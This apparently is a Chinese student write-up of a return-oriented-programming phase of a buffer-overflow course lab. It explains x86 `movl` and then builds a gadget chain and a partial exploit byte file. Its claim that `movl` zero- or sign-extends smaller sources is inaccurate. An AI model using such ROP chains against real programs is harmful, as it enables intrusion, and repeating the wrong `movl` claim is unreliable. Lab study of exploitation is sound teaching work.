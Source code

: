 以下是 `movl` 指令的一些关键点：

1. **数据传输**：`movl` 指令通常用于将一个32位（4字节）的值从一个位置（可能是另一个寄存器或内存地址）传输到一个寄存器中。例如，`movl %eax, %ebx` 将会把寄存器 `%eax` 中的值复制到 `%ebx` 中。
2. **覆盖现有数据**：执行 `movl` 指令时，目标寄存器中原有的数据会被完全覆盖。这意味着在传输后，目标寄存器仅包含新传入的值。
3. **对标志寄存器的影响**：`movl` 指令不影响处理器的标志寄存器。这意味着不会改变像零标志（ZF）、符号标志（SF）或溢出标志（OF）这样的状态标志。
4. **零扩展与符号扩展**：如果源数据小于32位，`movl` 指令会进行零扩展或符号扩展，以确保数据在移动到目标寄存器时占满32位。零扩展用于无符号数，而符号扩展用于带符号数。
5. **使用场景**：`movl` 在多种情况下被使用，包括数据初始化、变量赋值、准备函数参数等。

在 x86 汇编语言中，`movl` 指令用于移动（复制）32位数据，从一个源操作数到目的操作数。这里的 'l' 后缀表示 'long'，意味着操作涉及的是 32 位数据（或称为长字）。这个指令是更广泛的 `mov` 指令集的一部分，用于数据传输操作。

关于 `movl` 指令对寄存器上方4字节的影响，重要的是理解 x86 架构中32位和64位寄存器的上下文。在64位的 x86（x86-64）架构中，寄存器有一个层次结构，每个寄存器可以以不同的大小被访问：

- 64位大小（例如，累加器寄存器 `RAX`）
- 32位大小（例如，`RAX` 的下方32位是 `EAX`）
- 16位大小（例如，`EAX` 的下方16位是 `AX`）
- 8位大小（例如，`AX` 的下方8位是 `AL`，上方8位是 `AH`）

当你使用 `movl` 指令将数据移动到64位寄存器的32位部分（比如 `EAX`）时，它只影响那个寄存器的下方32位。上方的32位（在这个例子中，是 `RAX` 的上方部分）被清零。这是一个重要的行为，因为它确保寄存器的上方部分不保留任何以前的、可能无关的数据，这可能在某些操作中引起问题。

例如，在64位系统上执行 `movl $0x12345678, %eax`：

- 值 `0x12345678` 被移动到 `EAX` 寄存器。
- `RAX` 的上方32位被设置为零。

这种行为是64位上下文中 `movl` 特有的。相比之下，如果你使用了操作整个64位寄存器的指令（比如 `movq`），它会影响寄存器的全部64位，包括上方和下方部分。

理一下思路：
需要传递的参数是cookie字符串的地址，最后肯定有一个 mov xx to %edi


Phase 3中用到的注入代码为：

movq    $0x5561dca8, %rdi
pushq   $0x4018fa
ret

其中0x5561dca8是栈中cookie存放的地址。

而在本题中，栈的位置是随机的，把cookie存放在栈中似乎不太现实，但是我们又不得不这样做，那么有什么办法呢？
只能在代码中获取%rsp的地址，然后根据偏移量来确定cookie的地址。想到这，思路就明晰了。


movq %rsp, %rax     #地址：0x401aad
movq %rax, %rdi     #地址：0x4019a2
popq %rax           #地址：0x4019cc
movl %eax, %edx     #地址：0x4019dd
movl %edx, %ecx     #地址：0x401a70
movl %ecx, %esi     #地址：0x401a13
lea  (%rdi,%rsi,1),%rax     #地址：0x4019d6
movq %rax, %rdi     #地址：0x4019a2


>>> bat exploit.txt                                                                       ‹git:master ✘› 00:18.04 Sun Dec 24 2023 >>> 
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: exploit.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1 + │ 00 00 00 00 00 00 00 00 
   2   │ 00 00 00 00 00 00 00 00
   3 + │ 00 00 00 00 00 00 00 00 
   4   │ 00 00 00 00 00 00 00 00
   5 ~ │ 00 00 00 00 00 00 00 00 
   6 ~ │ ad 1a 40 00 00 00 00 00     /* movq %rsp, %rax */
   7 ~ │ a2 19 40 00 00 00 00 00     /* movq %rax, %rdi */
   8 ~ │ cc 19 40 00 00 00 00 00     /* popq %rax */
   9 ~ │ 48 00 00 00 00 00 00 00     